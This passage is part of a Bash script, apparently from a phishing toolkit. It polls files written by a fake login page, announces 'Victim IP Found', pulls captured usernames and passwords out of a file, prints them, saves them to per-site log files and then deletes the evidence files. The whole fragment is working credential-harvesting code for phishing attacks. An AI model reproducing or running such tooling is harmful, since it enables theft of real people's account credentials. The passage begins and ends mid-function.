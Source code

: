 printf " \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\e[1;93m Login Info \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\n"

printf "\e[0m\n"

while [ true ]; do

if [[ -e ".htr/www/ip.txt" ]]; then

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n"

grab_ip

rm -rf .htr/www/ip.txt

fi

sleep 0.75

if [[ -e ".htr/www/usernames.txt" ]]; then

account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2)

IFS=$'\n'

password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2)

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password

cat .htr/www/usernames.txt >> logs/$website.log

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website

printf "\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Press Ctrl + C to Exit\e[0m\n"

rm -rf .htr/www/usernames.txt

fi

sleep 0.75

done

}

grab_ip() {

ip=$(grep -a 'IP:' .htr/www/ip.txt | cut -d " " -f2 | tr -d '\r')

IFS=$'\n'

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP:\e[0m\e[1;96m %s\e[0m\n" $ip

printf "\e[0m\n"
